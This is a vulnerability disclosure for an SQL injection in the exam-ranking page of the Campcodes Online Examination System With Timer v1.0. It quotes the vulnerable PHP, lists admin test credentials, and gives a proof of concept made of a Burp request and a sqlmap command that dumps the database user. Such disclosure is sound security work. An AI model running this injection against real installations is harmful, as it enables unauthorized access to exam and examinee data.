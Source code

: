 ## Online Examination System With Timer

## SQL Injection on `ranking-exam.php`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/online-examination-system-with-timer/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/adminpanel/index.php
admin@username
admin@password
```

### Affected Page:

```
/adminpanel/admin/home.php?page=ranking-exam
```

The potential injection point is located in `ranking-exam.php`. This file directly utilizes the `$exam_id`  variables to construct a database query without employing parameterized queries or proper data sanitization measures.

```php
# /adminpanel/admin/home.php

@$page = $_GET['page'];
if($page != '')
{
	if($page == "add-course")
	{
		include("pages/add-course.php");
	}
	else if($page == "manage-course")
	{
		include("pages/manage-course.php");
	}
	else if($page == "manage-exam")
	{
		include("pages/manage-exam.php");
	}
	else if($page == "manage-examinee")
	{
		include("pages/manage-examinee.php");
	}
	else if($page == "ranking-exam")
	{
		include("pages/ranking-exam.php");
	}
	else if($page == "feedbacks")
	{
		include("pages/feedbacks.php");
	}
	else if($page == "examinee-result")
	{
		include("pages/examinee-result.php");
	}
}
```

```php
# pages/ranking-exam.php

@$exam_id = $_GET['exam_id'];
if($exam_id != ""){
	$selEx = $conn->query("SELECT * FROM exam_tbl WHERE ex_id='$exam_id' ")->fetch(PDO::FETCH_ASSOC);
	$exam_course = $selEx['cou_id'];
	$selExmne = $conn->query("SELECT * FROM examinee_tbl et  WHERE exmne_course='$exam_course'  ");
}
```



### Proof of Concept:

**Burp Request:**

```
GET /adminpanel/admin/home.php?page=ranking-exam&exam_id=25 HTTP/1.1
Host: 192.168.150.131
Upgrade-Insecure-Requests: 1
DNT: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/adminpanel/admin/home.php?page=ranking-exam
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=a3630ea0258c281edaea4e92c6a98410
x-forwarded-for: 8.8.8.8
Connection: close


```

```
python sqlmap.py -r 1.txt --current-user --batch --dbms mysql
```

**Screenshot:**

![image-20240513175852994](./screenshot/image-20240513175852994.png)

